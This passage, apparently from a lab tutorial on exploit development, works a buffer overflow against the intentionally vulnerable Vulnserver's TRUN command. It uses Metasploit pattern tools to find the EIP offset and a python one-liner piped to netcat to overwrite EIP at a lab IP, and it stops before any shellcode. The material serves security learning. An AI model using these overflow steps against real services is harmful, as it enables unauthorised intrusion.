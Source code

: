 So now let's check the location of the EIP with `msf-pattern_create`
```
└─$ msf-pattern_create -l 5000                      
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai...
```

![bo-054.png](/assets/images/bo-054.png)
**Figure 54** The EIP was overflow.

Now for the next step, we need to check the location of the EIP.

```
└─$ msf-pattern_offset -l 5000 -q 386f4337                          
[*] Exact match at offset 2003

```

So now we need to overflow it by run 2003 chars and B's over the EIP.
```
└─$ python2 -c 'print "TRUN /.:/" +"A"*2003+"B"*4'  | nc -nv 192.168.126.28 9999                                   
(UNKNOWN) [192.168.126.28] 9999 (?) open
Welcome to Vulnerable Server! Enter HELP for help.
```

![bo-055.png](/assets/images/bo-055.png)
**Figure 55** Overwrite the EIP.

Now we can add more chars to check the offset we can insert, in my case I am use 500 C's to see if the EIP was not change location.
